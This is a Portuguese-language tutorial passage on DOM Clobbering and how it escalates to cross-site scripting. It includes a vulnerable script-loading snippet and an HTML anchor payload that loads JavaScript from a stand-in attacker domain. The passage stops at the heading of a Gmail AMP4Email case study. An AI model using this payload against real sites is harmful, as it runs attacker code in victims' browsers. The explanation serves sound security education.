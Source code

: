 ## Parte III: Vetores de Ataque e Impacto no Mundo Real

A teoria por trás do DOM Clobbering é fascinante, mas seu verdadeiro perigo reside em como essas técnicas de manipulação do DOM podem ser traduzidas em vulnerabilidades de alto impacto em aplicações do mundo real. Esta seção conecta a mecânica do *clobbering* a vetores de ataque concretos, demonstrando como ele pode ser escalado para *Cross-Site Scripting* (XSS), *Cross-Site Request Forgery* (CSRF) e outros *bypasses* de segurança.

### Seção 3.1: Escalada para *Cross-Site Scripting* (XSS)

O DOM Clobbering se torna um vetor potente para XSS quando a variável ou propriedade do objeto que foi sobrescrita é posteriormente utilizada em um "*sink*" perigoso. Um *sink* é uma função ou propriedade do DOM que pode executar código ou renderizar HTML se receber dados maliciosos. Exemplos clássicos de *sinks* de XSS incluem `element.innerHTML`, `document.write()`, `script.src`, e o infame `eval()`. O ataque de *clobbering* atua como um canal para entregar um *payload* a um desses *sinks*, muitas vezes contornando filtros que esperariam uma injeção de `<script>` direta.

#### Estudo de Caso 1: Sobrescrevendo `script.src`

Este é um dos cenários mais diretos para escalar o DOM Clobbering para XSS. Ocorre quando uma aplicação constrói dinamicamente uma tag de *script* e usa uma variável de configuração global para definir sua fonte.

**Código Vulnerável:**

```javascript
var config = window.config || { url: 'safe-library.js' };
var s = document.createElement('script');
s.src = config.url;
document.body.appendChild(s);
```

**Payload de Exploração:**

```html
<a id="config"></a>
<a id="config" name="url" href="//attacker-controlled.com/malicious.js"></a>
```

**Análise do Ataque:**

1. O invasor injeta o *payload* HTML em uma parte da página que permite a inserção de tags `<a>` (por exemplo, um campo de comentário ou um perfil de usuário).
2. O navegador cria um `HTMLCollection` chamado `config` porque existem duas âncoras com o mesmo `id`.
3. Quando o JavaScript é executado, a variável `config` recebe a `HTMLCollection`.
4. A linha `s.src = config.url;` é o ponto crítico. O acesso à propriedade `url` na `HTMLCollection` seleciona a segunda âncora através de seu atributo `name`.
5. O objeto da âncora é então convertido para uma *string* para ser atribuído a `s.src`. Como discutido anteriormente, a conversão `toString()` de uma tag `<a>` retorna seu atributo `href`.
6. O resultado é que a página tenta carregar e executar um *script* do domínio do invasor, resultando em uma execução de código arbitrária no contexto da página da vítima.

#### Estudo de Caso 2: O Ataque ao AMP4Email do Gmail
